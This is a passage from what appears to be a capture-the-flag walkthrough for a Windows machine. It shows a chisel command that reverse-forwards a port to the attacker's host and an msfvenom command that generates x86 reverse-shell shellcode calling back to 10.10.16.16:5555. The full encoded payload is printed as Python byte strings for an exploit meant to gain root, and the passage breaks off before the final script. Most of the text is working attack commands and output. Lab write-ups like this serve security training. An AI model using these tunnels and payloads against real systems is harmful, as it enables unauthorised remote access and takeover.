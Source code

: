 ```console
c:\Users\Public>chiselwin.exe client 10.10.16.16:1234 R:8888:127.0.0.1:8888
chiselwin.exe client 10.10.16.16:1234 R:8888:127.0.0.1:8888
2022/10/18 20:18:48 client: Connecting to ws://10.10.16.16:1234
2022/10/18 20:18:48 client: Connected (Latency 31.6057ms)
```

The last big thing to do is add some custom shellcode to exploit to create a reverse shell and gain root.

Note: Originally when I did this it was not working but a system reset fixed it and my exploit ran flawlessly.

```
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.16 LPORT=5555 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xbe\x9a\x84\xd2\x91\xdb\xdb\xd9\x74\x24\xf4"
payload += b"\x5f\x29\xc9\xb1\x52\x31\x77\x12\x03\x77\x12"
payload += b"\x83\x5d\x80\x30\x64\x9d\x61\x36\x87\x5d\x72"
payload += b"\x57\x01\xb8\x43\x57\x75\xc9\xf4\x67\xfd\x9f"
payload += b"\xf8\x0c\x53\x0b\x8a\x61\x7c\x3c\x3b\xcf\x5a"
payload += b"\x73\xbc\x7c\x9e\x12\x3e\x7f\xf3\xf4\x7f\xb0"
payload += b"\x06\xf5\xb8\xad\xeb\xa7\x11\xb9\x5e\x57\x15"
payload += b"\xf7\x62\xdc\x65\x19\xe3\x01\x3d\x18\xc2\x94"
payload += b"\x35\x43\xc4\x17\x99\xff\x4d\x0f\xfe\x3a\x07"
payload += b"\xa4\x34\xb0\x96\x6c\x05\x39\x34\x51\xa9\xc8"
payload += b"\x44\x96\x0e\x33\x33\xee\x6c\xce\x44\x35\x0e"
payload += b"\x14\xc0\xad\xa8\xdf\x72\x09\x48\x33\xe4\xda"
payload += b"\x46\xf8\x62\x84\x4a\xff\xa7\xbf\x77\x74\x46"
payload += b"\x6f\xfe\xce\x6d\xab\x5a\x94\x0c\xea\x06\x7b"
payload += b"\x30\xec\xe8\x24\x94\x67\x04\x30\xa5\x2a\x41"
payload += b"\xf5\x84\xd4\x91\x91\x9f\xa7\xa3\x3e\x34\x2f"
payload += b"\x88\xb7\x92\xa8\xef\xed\x63\x26\x0e\x0e\x94"
payload += b"\x6f\xd5\x5a\xc4\x07\xfc\xe2\x8f\xd7\x01\x37"
payload += b"\x1f\x87\xad\xe8\xe0\x77\x0e\x59\x89\x9d\x81"
payload += b"\x86\xa9\x9e\x4b\xaf\x40\x65\x1c\xda\x9e\x75"
payload += b"\xcc\xb2\x9c\x75\xf9\xf1\x28\x93\x6b\xe6\x7c"
payload += b"\x0c\x04\x9f\x24\xc6\xb5\x60\xf3\xa3\xf6\xeb"
payload += b"\xf0\x54\xb8\x1b\x7c\x46\x2d\xec\xcb\x34\xf8"
payload += b"\xf3\xe1\x50\x66\x61\x6e\xa0\xe1\x9a\x39\xf7"
payload += b"\xa6\x6d\x30\x9d\x5a\xd7\xea\x83\xa6\x81\xd5"
payload += b"\x07\x7d\x72\xdb\x86\xf0\xce\xff\x98\xcc\xcf"
payload += b"\xbb\xcc\x80\x99\x15\xba\x66\x70\xd4\x14\x31"
payload += b"\x2f\xbe\xf0\xc4\x03\x01\x86\xc8\x49\xf7\x66"
payload += b"\x78\x24\x4e\x99\xb5\xa0\x46\xe2\xab\x50\xa8"
payload += b"\x39\x68\x60\xe3\x63\xd9\xe9\xaa\xf6\x5b\x74"
payload += b"\x4d\x2d\x9f\x81\xce\xc7\x60\x76\xce\xa2\x65"
payload += b"\x32\x48\x5f\x14\x2b\x3d\x5f\x8b\x4c\x14"
```
The final script should look something like this
